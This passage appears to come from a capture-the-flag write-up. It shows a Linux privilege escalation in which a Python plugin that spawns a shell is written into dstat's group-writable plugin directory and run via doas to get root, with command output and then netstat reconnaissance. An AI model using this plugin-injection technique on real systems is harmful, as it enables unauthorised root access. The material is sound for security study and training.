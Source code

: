 This can also be found in `man dstat` :

```text
FILES
       Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/
```

Among these directories, `/usr/local/share/dstat/`, allow us to write a file :

```shell
ls -la /usr/local/share/dstat/
```

Result:

```text
total 8
drwxrwx--- 2 root player 4096 May  1 14:30 .
drwxr-xr-x 6 root root   4096 Nov 17 09:16 ..
```

We can create a python file in this directory, and use dstat to execute it :

```shell
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_shell.py
doas /usr/bin/dstat --shell
```

Result:

```text
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

We have a root shell.

### further recon

Now we have full access. We can now see the running process behind port 9091 :

```shell
netstat -tnlp
```

Result:

```text
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1094/nginx: master  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      1001/systemd-resolv 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1060/sshd: /usr/sbi 
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      1200/node /root/app 
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      1247/node /root/app 
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      1127/mysqld         
```
